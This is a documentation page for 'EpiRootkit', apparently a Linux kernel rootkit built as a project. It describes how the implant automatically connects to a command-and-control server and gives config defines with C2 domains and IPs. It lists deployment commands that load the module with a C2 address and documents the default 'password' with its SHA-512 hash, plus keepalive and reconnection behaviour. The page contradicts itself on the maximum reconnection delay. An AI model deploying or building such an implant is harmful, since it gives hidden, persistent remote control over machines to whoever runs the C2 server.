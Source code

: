 ```yaml
---
title: "Connection & Authentication"
description: "How the rootkit connects to C2 server and authenticates"
icon: "link"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 503
---
```


# Connection & Authentication

How EpiRootkit connects to the C2 server and handles authentication with **domain support**.

## Connection Process

### Automatic Connection
When the rootkit loads, it automatically:

1. **Starts connection thread** (`epirootkit_conn`)
2. **Resolves domain** (if address is domain name) - see [DNS Resolution](./features/dns-resolution.md)
3. **Attempts TCP connection** to configured C2 server
4. **Begins keepalive system** (60-second ping/pong)
5. **Handles reconnection** with exponential backoff

### Configuration with Domain Support
```c
// rootkit/core/config.h - Domain examples
#define C2_SERVER_ADDRESS "jules-c2.example.com"  // Domain name
#define C2_SERVER_PORT 4444
#define KEEPALIVE_INTERVAL_MS 60000
#define RECONNECT_DELAY_MS 5000

// Or traditional IP
#define C2_SERVER_ADDRESS "192.168.64.1"  // IP address
#define C2_SERVER_PORT 4444
```

### Runtime Parameters
Override config.h settings during deployment:
```bash
# Deploy with domain
sudo ./deploy_rootkit.sh address=secure.company.net port=443

# Deploy with IP
sudo ./deploy_rootkit.sh address=10.0.0.100 port=8080
```

## Network Architecture

### Four-Layer System
1. **DNS Resolution** - See [DNS Resolution](./features/dns-resolution.md) for details
2. **Connection Management** (`connection.c`) - High-level coordination
3. **Keepalive System** (`keepalive.c`) - Health monitoring
4. **Socket Management** (`socket.c`) - Low-level network operations

### Connection States
- `0` = DISCONNECTED
- `1` = CONNECTED  
- `2` = CONNECTING

## Authentication System

### How It Works
1. **C2 sends command**: `auth Client-1 password`
2. **Rootkit receives**: Plain text password
3. **Rootkit hashes**: Using SHA-512 kernel crypto API
4. **Compares hash**: Against stored hash in config
5. **Returns result**: SUCCESS or ERROR

### Implementation
```c
// Default password is "password" (SHA-512 hash stored in config)
#define PASSWORD_HASH "b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86"
```

### Security Features
- **Rate limiting**: 5 attempts per 60 seconds
- **Session timeout**: 1 hour automatic expiry
- **Secure hashing**: SHA-512 using kernel crypto API

## Live Demo with Domain Support

### 1. Start C2 Server
```bash
cd attacking_program && pnpm start
```

### 2. Load Rootkit with Domain
```bash
# Deploy with domain name
sudo ./deploy_rootkit.sh address=c2.test-domain.com port=4444

# Or load directly
sudo insmod epirootkit.ko address=c2.test-domain.com port=4444
```

**C2 server shows:**
```
[2025-05-25 16:13:09] New client connected: Client-1
[2025-05-25 16:13:09] Client-1 status: UNAUTHENTICATED
```

For DNS resolution details, see [DNS Resolution](./features/dns-resolution.md).

### 3. Check Connection
```bash
c2-server$ clients
# • Client-1 - UNAUTHENTICATED - Last seen: 6:13:09 PM
```

### 4. Authenticate
```bash
c2-server$ auth Client-1 password
# ✓ [2025-05-25 16:13:29] Authenticated
# SUCCESS: Authentication successful
```

### 5. Verify Authentication
```bash
c2-server$ clients
# • Client-1 - AUTHENTICATED - Last seen: 6:13:29 PM
```

## Keepalive System

### Purpose
- **Detect disconnections**: Network failures, system crashes
- **Maintain connection**: Regular ping/pong messages
- **Trigger reconnection**: When connection lost

### How It Works
- **Ping interval**: Every 60 seconds
- **Timeout detection**: 30 seconds for response
- **Failure threshold**: 3 consecutive failed pings
- **Automatic reconnection**: Exponential backoff (5s → 10s → 20s → 40s → 60s max)

### Monitoring
```bash
# Check keepalive status from C2
c2-server$ keepalive Client-1
# Keepalive Status:
# Last ping sent: 2025-05-25 16:14:00
# Last pong received: 2025-05-25 16:14:00
# Failed ping count: 0
# Connection stable: YES
```

## Reconnection Handling

### Disconnection Detection
1. **Socket-level**: Immediate network failures
2. **Keepalive timeout**: No response to ping
3. **Send failures**: Failed command results

### Reconnection Process
1. **Detect disconnection**
2. **Wait with backoff**: 5s → 10s → 20s → 30s (max)
3. **Attempt reconnection** (with DNS resolution if domain - see [DNS Resolution](./features/dns-resolution.md))
4. **Reset authentication**: Must re-authenticate after reconnect
5. **Resume operations**

For DNS-aware reconnection details, see [DNS Resolution](./features/dns-resolution.md).
